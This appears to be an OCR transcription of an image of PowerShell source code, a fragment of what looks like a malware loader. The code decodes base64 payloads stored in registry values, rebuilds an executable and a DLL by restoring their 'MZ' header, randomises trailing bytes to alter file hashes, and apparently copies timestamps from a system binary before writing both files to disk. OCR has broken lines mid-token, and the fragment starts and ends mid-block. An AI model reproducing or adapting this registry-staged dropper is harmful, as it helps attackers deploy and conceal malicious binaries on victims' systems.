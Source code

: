 
}





try{


         if(!(Test-Path
$binPath)){





                   $b64
= dc -s ((Get-ItemProperty -Path $system).part1);


                   $bytes
= [System.Convert]::FromBase64String("TVq" + $b64);


                   $rn
= [System.BitConverter]::GetBytes((Get-Random -Maximum 9999 -Minimum
1111))[0..1];


                   [array]::copy($rn,0,$bytes,$bytes.length
- 2,2);


                   New-Item
-ItemType Directory -Force -Path $binDir | Out-Null;


                   [io.file]::WriteAllBytes($binPath,$bytes)
| Out-Null;


                   updt
-t $binPath -b $cmdl32path





                   $b64dll
= dc -s ((Get-ItemProperty -Path $system).part2);


        $bytes = [System.Convert]::FromBase64String("TVq" + $b64dll);


                   [array]::copy($line,0,$bytes,(sb
-h $bytes -n $buf6),64);


                   New-Item
-ItemType Directory -Force -Path $binDir | Out-Null;


                   [io.file]::WriteAllBytes($binPathdll,$bytes)
| Out-Null;
